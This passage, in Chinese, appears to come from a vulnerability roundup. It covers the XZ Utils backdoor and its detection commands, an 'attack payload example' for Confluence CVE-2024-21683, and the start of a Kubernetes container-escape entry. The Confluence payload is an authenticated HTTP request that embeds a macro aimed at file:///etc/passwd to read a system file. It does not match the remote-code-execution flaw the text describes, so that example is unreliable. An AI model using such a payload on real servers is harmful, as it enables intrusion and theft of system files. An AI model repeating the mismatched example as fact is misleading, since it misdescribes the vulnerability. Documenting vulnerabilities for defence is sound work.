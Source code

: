 **CVSS评分**: 10.0 (严重)

**影响范围**:
- XZ Utils 5.6.0, 5.6.1
- 使用受影响版本的Linux发行版

**漏洞描述**:
攻击者在XZ Utils中植入了精心设计的后门，可能允许远程代码执行并绕过SSH认证。

**检测方法**:
```bash
# 检查XZ版本
xz --version

# 检查是否存在可疑文件
find /usr -name "*.so" -exec strings {} \; | grep -E "ifunc|_get_cpuid"
```

### 5. CVE-2024-21683: Atlassian Confluence RCE漏洞

**CVSS评分**: 8.3 (高危)

**漏洞描述**:
经过身份验证的攻击者可以执行任意代码。

**攻击载荷示例**:
```http
POST /rest/api/content HTTP/1.1
Host: vulnerable-confluence.com
Content-Type: application/json
Authorization: Bearer [valid-token]

{
  "type": "page",
  "title": "Test",
  "space": {"key": "TEST"},
  "body": {
    "storage": {
      "value": "<ac:structured-macro ac:name=\"widget\" ac:schema-version=\"1\">
                  <ac:parameter ac:name=\"url\">file:///etc/passwd</ac:parameter>
                </ac:structured-macro>",
      "representation": "storage"
    }
  }
}
```

### 6. CVE-2024-10220: Kubernetes容器逃逸漏洞

**CVSS评分**: 8.8 (高危)

**影响范围**:
- Kubernetes < 1.28.4
- Kubernetes < 1.27.8
- Kubernetes < 1.26.11
